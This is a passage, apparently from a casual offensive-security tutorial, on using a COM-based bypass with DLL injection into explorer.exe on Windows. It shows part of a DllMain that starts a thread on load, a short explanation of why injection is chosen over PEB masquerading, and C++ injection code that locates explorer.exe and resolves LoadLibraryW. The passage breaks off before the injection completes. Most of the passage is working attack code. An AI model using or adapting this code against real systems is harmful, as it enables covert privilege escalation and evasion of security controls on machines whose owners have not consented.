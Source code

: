 ```cpp
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls(hModule);
        CreateThread(nullptr, 0, ThreadProc, hModule, 0, nullptr);
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

But wait...Why are we creating a DLL with our COM bypass code?  Okay, here's the deal.  COM objects are very finnicky and as I understand it, will not run correctly if they are not being executed within a trusted parent/calling process, such as **explorer.exe**

Yeah dude, but that doesn't explain the DLL!  I know...I'm getting there I promise 😸  Most people would opt to do PEB masquerading to make it look as if the executable is running as explorer.exe

I'm not most people, and I like easy solutions. 😆 So, I just inject our DLL into explorer.exe and call it a day.  PEB masquering is hype don't get me wrong!  We can do that next time if you guys like.  For now and for learning purposes, let's just stick with the easy route.  Here's some basic DLL injection code to bring it all together:

```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>

DWORD GetExplorerPID() {
    DWORD pid = 0;
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snapshot == INVALID_HANDLE_VALUE) return 0;

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(PROCESSENTRY32);
    if (Process32First(snapshot, &pe)) {
        do {
            if (_wcsicmp(pe.szExeFile, L"explorer.exe") == 0) {
                pid = pe.th32ProcessID;
                break;
            }
        } while (Process32Next(snapshot, &pe));
    }

    CloseHandle(snapshot);
    return pid;
}

int main() {
   
    DWORD pid = GetExplorerPID();
    if (!pid) {
        std::wcerr << L"explorer.exe not found!\n";
        return 1;
    }

    HMODULE hKernel32 = GetModuleHandleW(L"kernel32.dll");
    if (!hKernel32) return 1;

    
    auto pLoadLibraryW = (LPTHREAD_START_ROUTINE)GetProcAddress(hKernel32, "LoadLibraryW");
    if (!pLoadLibraryW) return 1;

```